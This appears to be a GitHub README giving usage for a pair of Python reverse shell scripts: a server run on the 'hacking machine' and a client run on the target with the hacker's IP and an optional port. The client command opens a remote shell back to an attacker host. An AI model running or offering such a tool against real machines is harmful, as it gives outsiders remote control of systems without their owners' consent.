 # Usage

## On Hacking machine
python3 reverseShellServer.py

## On Client machine
python3 reverseShellClient.py <hacker_IP>


### Port as an optional argument
Both scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

#### On Hacking machine
python3 reverseShellServer.py <port>

#### On Client machine
python3 reverseShellClient.py <hacker_IP> <port>
